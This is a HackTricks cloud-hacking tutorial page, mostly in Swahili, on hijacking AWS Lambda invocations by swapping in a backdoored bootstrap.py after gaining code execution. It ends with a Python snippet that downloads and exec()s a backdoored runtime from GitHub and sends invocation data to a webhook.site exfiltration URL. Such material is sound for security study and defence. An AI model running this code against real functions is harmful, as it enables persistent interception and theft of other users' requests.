 # AWS - Steal Lambda Requests

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ni mchakato nje ya kontena ambao **inatuma** **maito** kwa mchakato wa **init**.
2. Mchakato wa init unasikiliza kwenye bandari **9001** ukionyesha baadhi ya maeneo ya kuvutia:
* **`/2018-06-01/runtime/invocation/next`** – pata tukio la maito linalofuata
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – rudisha jibu la handler kwa maito
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – rudisha kosa la utekelezaji
3. **bootstrap.py** ina mzunguko unaopata maito kutoka kwa mchakato wa init na inaita msimbo wa watumiaji kuweza kushughulikia ( **`/next`**).
4. Hatimaye, **bootstrap.py** inatuma kwa init **jibu**

Kumbuka kwamba bootstrap inachukua msimbo wa mtumiaji kama moduli, hivyo utekelezaji wowote wa msimbo unaofanywa na msimbo wa watumiaji unafanyika katika mchakato huu.

## Stealing Lambda Requests

Lengo la shambulio hili ni kufanya msimbo wa watumiaji utekeleze mchakato mbaya wa **`bootstrap.py`** ndani ya mchakato wa **`bootstrap.py`** ambao unashughulikia ombi lenye udhaifu. Kwa njia hii, mchakato wa **bootstrap mbaya** utaanza **kuzungumza na mchakato wa init** ili kushughulikia maombi wakati **bootstrap halali** ime **kwama** ikifanya mchakato mbaya, hivyo haitahitaji maombi kwa mchakato wa init.

Hii ni kazi rahisi kufanikisha kwani msimbo wa mtumiaji unatekelezwa na mchakato halali wa **`bootstrap.py`**. Hivyo mshambuliaji anaweza:

* **Kutuma matokeo ya uwongo ya maito ya sasa kwa mchakato wa init**, hivyo init inafikiri mchakato wa bootstrap unangojea maito zaidi.
* Ombi lazima litumwe kwa **`/${invoke-id}/response`**
* Invoke-id inaweza kupatikana kutoka kwenye stack ya mchakato halali wa **`bootstrap.py`** kwa kutumia moduli ya [**inspect**](https://docs.python.org/3/library/inspect.html) ya python (kama [ilivyopendekezwa hapa](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) au tu kuomba tena kwa **`/2018-06-01/runtime/invocation/next`** (kama [ilivyopendekezwa hapa](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Tekeleza **`boostrap.py`** mbaya ambayo itashughulikia maito yafuatayo
* Kwa sababu za kujificha, inawezekana kutuma vigezo vya maito ya lambda kwa C2 inayodhibitiwa na mshambuliaji na kisha kushughulikia maombi kama kawaida.
* Kwa shambulio hili, inatosha kupata msimbo wa asili wa **`bootstrap.py`** kutoka kwenye mfumo au [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), ongeza msimbo mbaya na uendeleze kutoka kwenye maito ya sasa ya lambda.

### Attack Steps

1. Pata udhaifu wa **RCE**.
2. Tengeneza **bootstrap** mbaya (mfano [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Tekeleza** bootstrap mbaya.

You can easily perform these actions running:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Kwa maelezo zaidi angalia [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Marejeo

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

